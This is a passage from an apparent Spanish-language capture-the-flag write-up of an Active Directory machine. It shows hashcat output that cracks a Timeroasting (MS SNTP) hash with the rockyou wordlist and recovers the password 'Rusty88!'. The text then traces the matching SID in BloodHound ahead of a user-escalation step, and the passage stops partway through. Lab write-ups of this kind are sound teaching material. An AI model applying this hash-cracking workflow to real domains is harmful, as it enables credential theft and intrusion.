 ```

* Create more work items to make use of your parallelization power:
  https://hashcat.net/faq/morework

$sntp-ms$96d19e3d81b823ba8856ef4aaff4802b$1c0111e900000000000a3c134c4f434cec9a0bb869e716fae1b8428bffbfcd0aec9a5aec5a07bf11ec9a5aec5a07e3fa:Rusty88!
Approaching final keyspace - workload adjusted.           

                                                          
Session..........: hashcat
Status...........: Exhausted
Hash.Mode........: 31300 (MS SNTP)
Hash.Target......: ../hashes.txt
Time.Started.....: Wed Oct 15 10:46:50 2025 (18 secs)
Time.Estimated...: Wed Oct 15 10:47:08 2025 (0 secs)
Kernel.Feature...: Pure Kernel (password length 0-256 bytes)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#01........: 13405.6 kH/s (0.34ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/16 (6.25%) Digests (total), 1/16 (6.25%) Digests (new), 1/16 (6.25%) Salts
Progress.........: 229510160/229510160 (100.00%)
Rejected.........: 0/229510160 (0.00%)
Restore.Point....: 14344385/14344385 (100.00%)
Restore.Sub.#01..: Salt:15 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#01...:  kristenanne -> $HEX[042a0337c2a156616d6f732103]
Hardware.Mon.#01.: Util: 47%

Started: Wed Oct 15 10:46:34 2025
Stopped: Wed Oct 15 10:47:09 2025
```

Veremos que ha funcionado y nos saca una contraseña solamente llamada `Rusty88!`, y si comparamos ese `hash` con la informacion que obtuvimos en la tecnica de `Timeroasting` veremos que se corresponde con el `SID` terminado en `1125` por lo que nos iremos a `BloodHound` y filtraremos por dicho `RID` del `SID` obtenido para saber el usuario que es.

## Escalate user BB.MORGAN

Si buscamos por `1125` en el buscador de `BloodHound` nos aparecera este equipo con dicho identificador:
